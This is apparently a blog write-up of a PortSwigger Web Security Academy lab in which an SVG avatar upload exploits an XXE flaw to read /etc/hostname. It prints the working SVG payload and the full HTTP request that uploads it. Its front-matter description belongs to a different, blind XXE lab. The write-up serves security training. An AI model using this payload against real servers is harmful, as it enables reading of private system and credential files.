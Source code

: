 ```yaml
---
author: Nithissh S
pubDatetime: 2024-11-22T15:22:00Z
modDatetime: 2024-11-22T09:12:47.400Z
title: Exploiting XXE via image file upload
slug: xxe-portswigger-lab-4
featured: false
draft: false
tags:
  - BSCP
  - XXE
description:
  This lab has a "Check stock" feature that parses XML input but does not display the result. You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain. To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
---
```


## Objective 

This lab lets users attach avatars to comments and uses the `Apache Batik library` to process avatar image files.

To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the `"Submit solution"` button to submit the value of the server hostname. 

## Solution 

In the add comment functionality, we have functionality to upload an avatar in it.. so what I did created a sample svg payload with a XXE

```xml 
<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text></svg>
```

Then now I uploaded the avatar, entered some random input data with fields and here is how the request looks like 

```sh
POST /post/comment HTTP/2
Host: 0ae3005504821ddf8173482f00530041.web-security-academy.net
Cookie: session=kCubHHWI2AsgPEsAJ2jtREgDZ7lPkyY9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------281221630236770022421711560835
Content-Length: 1267
Origin: https://0ae3005504821ddf8173482f00530041.web-security-academy.net
Referer: https://0ae3005504821ddf8173482f00530041.web-security-academy.net/post?postId=5
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

-----------------------------281221630236770022421711560835
Content-Disposition: form-data; name="csrf"

q61g7AQxxt26b6WYtNE3LftMyLV4qn7x
-----------------------------281221630236770022421711560835
Content-Disposition: form-data; name="postId"

5
-----------------------------281221630236770022421711560835
Content-Disposition: form-data; name="comment"

test
-----------------------------281221630236770022421711560835
Content-Disposition: form-data; name="name"

test
-----------------------------281221630236770022421711560835
Content-Disposition: form-data; name="avatar"; filename="poc.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text></svg>

-----------------------------281221630236770022421711560835
Content-Disposition: form-data; name="email"

test@test.com
-----------------------------281221630236770022421711560835
Content-Disposition: form-data; name="website"

https://test.com
-----------------------------281221630236770022421711560835--
```

After posting the comment, avatar will be uploaded in particular path which will actually get discloses in `View source` page of posted comment 

![](../../assets/images/bscp/xxe/xxe-12.png)

Opening the uploaded avatar, reveals the `hostname` here 

![](../../assets/images/bscp/xxe/xxe-13.png)

Submit the hostname as a solution through `Submit solution` button and that solves the lab 

![](../../assets/images/bscp/xxe/xxe-14.png)